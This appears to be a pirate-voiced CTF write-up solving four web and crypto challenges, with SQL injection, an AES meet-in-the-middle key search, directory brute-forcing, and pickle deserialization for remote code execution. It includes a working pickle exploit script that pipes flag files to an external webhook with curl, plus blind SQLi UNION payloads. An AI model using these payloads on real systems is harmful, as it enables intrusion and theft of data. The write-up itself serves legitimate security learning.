



# Break The Wall CTF 2024 - Write Up 

## 1. Access Denied (Easy)



Ye be given a login page. Didn't find any clue inspectin' the HTML or after performin' a few unsuccessful login attempts.
Maybe it be vulnerable to SQLi..? 

I fire `sqlmap` and get some interestin' output despite the program sayin' it did not find a successful injection:

```console
target URL appears to be UNION injectable with 3 columns
```

Lookin' at `sqlmap` HTTP requests, I find that two payloads resulted in a different HTML, solvin' the challenge!


## 2. Consortiums Vault (Hard)



Goin' to the main page we see the challenge has a crypto part, probably needin' to implement a [Meet-in-the-Middle attack](https://en.wikipedia.org/wiki/Meet-in-the-middle_attack)




Havin' access to an encryption oracle, I see that the block size be 16.

We have `admin_token` *locked with AES.cbd 3 times*. Did not find anythin' about a cbd mode, maybe it be 'CBC' mistyped?

We also have that *debug mode one of key be 9123891238912389*. Be that `key1`? The given key, if treated as an int and transformed to bytes, it gives a 7 bytes string. But if treated as string `len('9123891238912389')=16`, which be the needed length for a AES block cipher key.

I want to decrypt `admin_token`, but I don't have 2 AES keys of presumably 16 bytes (128 bits) of entropy each. The MITM attack would help me decrease by half the keyspace, so I would have 2**128 keys to try. I would spend life tryin' xD, so there must be somethin' else. 
Look at the given key. Doesn't it have a pattern? Aye! All be numbers, that would decrease the alphabet to [0-9]. Also, there be a block of 5 digits that repeats. That would be `10**5`, or around `2**19` keys to try. A lot better if right!

But there be another complexity. Given the design of AES-CBC, I would also need to know the three IVs of size 16 bytes. There must be somethin' else. Playin' around with encryptions, I find that it be not AES-CBC, but AES-ECB! Note how same plaintext blocks result in same ciphertexts blocks:


I made a `benchmark()` function to see how many AES enc/dec I can make in me hardware to see how much time I would spend to cover the hypotetical keyspaces for this challenge

```python
def benchmark():
    # measure time for performing 10000 encryptions/decryptions
    bench_n_iterations = 10000
    key1 = os.urandom(16)

    # 1 AES block
    pt = b"A"*16  
    ct = b"B"*16

    ### Enc
    start_enc = datetime.datetime.now()
    for i in range(bench_n_iterations):
        cipher1 = AES.new(key=key1, mode=AES.MODE_ECB)
        cipher1.encrypt(pt)
    stop_enc = datetime.datetime.now()    
    time_enc = (stop_enc-start_enc).total_seconds()
    # extrapolate to 1 second
    iters_enc = (bench_n_iterations // time_enc).__round__()

    ### Dec
    start_dec = datetime.datetime.now()
    for i in range(bench_n_iterations):
        cipher1 = AES.new(key=key1, mode=AES.MODE_ECB)
        cipher1.decrypt(ct)
    stop_dec = datetime.datetime.now()
    time_dec = (stop_dec-start_dec).total_seconds()
    # extrapolate to 1 second
    iters_dec = (bench_n_iterations // time_dec).__round__()

    # Output
    print("[+] Benchmark: %s Encryptions in 1 second" % (iters_enc))
    print("[+] Benchmark: %s Decryptions in 1 second" % (iters_dec))
    return iters_enc, iters_dec 
```

Wi' about 50,000 enc/dec per second:
- Fer a keyspace o' 16 bytes, `2**128` --> `2.5x10**26` Years
- Fer a keyspace o' 16 bytes wi' alphabet [0-9], `10**16 ≈ 2**54` --> `228493` Years
- Keyspace o' 5 bytes, `2**40` --> `254.5` Days
- Keyspace o' 5 bytes wi' alphabet [0-9], `10**5 ≈ 2**17` --> `2.6` **Seconds**

We also need t' take into account that 3DES has 2 variants: `ENC1(ENC2(ENC3(pt)))` an' `ENC1(DEC2(ENC3(pt)))` (fer encryption)

This be 3AES, but anyway could be usin' one or the other. 

At this point, I made a script implementin' the MITM attack considerin'
- `k1 = '9123891238912389'` (maybe it be k2 or k3..?)
- AES-ECB 
- Keyspace o' 5 bytes wi' alphabet [0-9]
- Variant EEE

...an' it failed. 
Then I went wi' EDE variant. Also failed. Maybe the given key be k2 an' not k1?
Tried, an' succeed!
Part o' the script:


```python
alphabet = b'0123456789'

# Brute all encryptions
encryption_table = {}           # key : value -> encryption result : key
for key in product(alphabet, repeat=5):
    key = bytes(key)*4
    key = key[:16]
    cipher = AES.new(key, AES.MODE_ECB)
    encrypted_custom = cipher.encrypt(known_pt)  # Double AES, I encrypt the encrypted pt
    assert len(encrypted_custom) == 16
    encrypted_custom = cipher2_known.encrypt(encrypted_custom)
    encryption_table[encrypted_custom] = key

# Brute all decryptions
decryption_table = {}           # key : value -> decryption result : key
for key in product(alphabet, repeat=5):
    key = bytes(key)*4
    key = key[:16]
    cipher = AES.new(key, AES.MODE_ECB)
    decrypted_custom = cipher.decrypt(known_ct)
    assert len(decrypted_custom) == 16
    decryption_table[decrypted_custom] = key

# find the intersection between the keys of decryption_table and encryption_table
# if there is an intersection, we can cross-reference the AES key we used
encryption_table_set = set(encryption_table.keys())
decryption_table_set = set(decryption_table.keys())

intersection = encryption_table_set.intersection(decryption_table_set)
if intersection:
    intersection = intersection.pop()
```

I tried the found keys to decrypt any random string encrypted via the API and succeeded!
So, let's decrypt `admin_token`

```python
decrypted_hex_string = "3734363836353732363532303639373332303631323032663730363136653635366332303737363937343638323036643635373436383666363432303437343535343230363136653634323037303631373236313664363537343635373232303666363632303631373537343638336433333335333233393236373036313732363136643364323736373431346536613539366535363730363234383532373036323665346434623633343834613730363236653531346236333531343235393434343134313431343134373638366336323437373837363439343836343736363336643738366234393538343534323638353834353433353536653435343434633637336433643237323036313665363432303639373432303737363936633663323036633666363136343230363132303664363537333733363136373635373332303216"

import binascii

ascii_representation = binascii.unhexlify(decrypted_hex_string)
bytes.fromhex('ascii_representation')

b"there is a /panel with method GET and parameter of auth=3529&param='gANjYnVpbHRpbnMKcHJpbnQKcQBYDAAAAGhlbGxvIHdvcmxkIXEBhXECUnEDLg==' and it will load a messages"
```

Browsing `https://challenges.hackrocks.com/alpha/panel?auth=3529&param=%27gANjYnVpbHRpbnMKcHJpbnQKcQBYDAAAAGhlbGxvIHdvcmxkIXEBhXECUnEDLg==%27`

We get the answer `loaded`.

Playin' around with the params doesn't show anythin' meaningful, just ` missin' authorization` message.

But decodin' the `param` value we see it contains a Base64 encoded pickle object!

```python
import base64
encoded_string = 'gANjYnVpbHRpbnMKcHJpbnQKcQBYDAAAAGhlbGxvIHdvcmxkIXEBhXECUnEDLg=='
base64.b64decode(encoded_string)

b'\x80\x03cbuiltins\nprint\nq\x00X\x0c\x00\x00\x00hello world!q\x01\x85q\x02Rq\x03.'
```

This suggests that the challenge backend be loadin' the pickle objects sent via `param`. We could use this to RCE!

The backend be filterin' some commands like direct imports or `eval()`, but I found that `builtins.exec()` be passin' through. This be a blind injection, so we need to exfiltrate the results via a controlled url. Here the final workin' payload:

```python
import builtins
import pickle
import base64
import requests

code_string = 'import os; os.system("cat /flag* | curl -X POST https://webhook.site/0607d369-e020-435b-bb23-412c2897205d -d @-")'

def generate_pickle_payload(code_string):
    class Exploit:
        def __reduce__(self):
            return (builtins.exec,(code_string,))
    # Create an instance of the Exploit class
    exploit_instance = Exploit()
    
    # Pickle dump the instance
    pickle_dump = pickle.dumps(exploit_instance)
    print(pickle_dump)
    
    # Base64 encode the pickle dump
    b64_encoded_payload = base64.b64encode(pickle_dump)
    
    return b64_encoded_payload


payl = generate_pickle_payload(code_string)
print(payl)

url = f"https://challenges.hackrocks.com/alpha/panel?auth=3529&param={payl.decode('utf-8')}"
print(url)

response = requests.get(url)
print(response.text)
```


# 3. Secret Room (Medium)


Thar link to login page be absent in thar startin' url. No clues in thar HTML


Runnin' `gobuster` wit' a basic dictionary allows us to find several subdirectories, thar one at `/login1` hostin' thar missin' login page. A delay o' 1 second between requests be enough to avoid thar rate-limittin'.

```console
/download             (Status: 200) [Size: 2059]
/config               (Status: 200) [Size: 2059]
/flag                 (Status: 200) [Size: 2059]
/dashboard            (Status: 200) [Size: 2059]
/secret               (Status: 200) [Size: 2059]
/panel                (Status: 200) [Size: 2059]
/backdoor             (Status: 200) [Size: 2059]
/hidden               (Status: 200) [Size: 2059]
>> "That was close, but a little bit too easy!"
/login1               (Status: 200) [Size: 4022]
```

Thar HTML at `/login1` shows a missin' JS file HTTP 404 not found: `static/js/auth.js`

Bruteforcin' thar login form wit' default credentials allows us to find thar correct ones `admin:1234`

...an' get thar flag at `https://challenges.hackrocks.com/secret-room/81tSQxJIU7nYkX3LiTrw`


# 4. Break The Wall (Medium)

https://challenges.plumberion.click/backdoor

Again, a login form. 

After a successful SQLi, ye get a HTTP 201 response an' a message that ye be logged in as Admin an' prompted to get its password.

It be a blind SQLi task. 

- A payload like `username=ADMIN&password=a' UNION SELECT id,1,2 FROM users WHERE id=1 AND SUBSTRING(username,2,1)='d' -- -` returns HTTP 201
- A payload like `username=ADMIN&password=a' UNION SELECT id,1,2 FROM users WHERE id=1 AND SUBSTRING(username,2,1)='w' -- -` returns HTTP 400

So, I can get letter by letter o' password like that!

Thar Admin password an' flag be `YOU_3ARN3D_IT`
